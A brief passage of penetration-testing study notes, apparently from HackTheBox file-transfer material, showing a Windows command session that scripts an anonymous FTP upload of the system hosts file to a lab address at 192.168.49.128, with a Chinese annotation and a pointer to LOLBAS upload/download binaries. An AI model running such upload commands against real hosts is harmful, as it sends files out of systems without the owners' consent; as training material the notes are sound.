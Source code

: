 ```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```
- 上传时用`PUT`





## Misc

### [[WinRM]]

### LOL

> To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

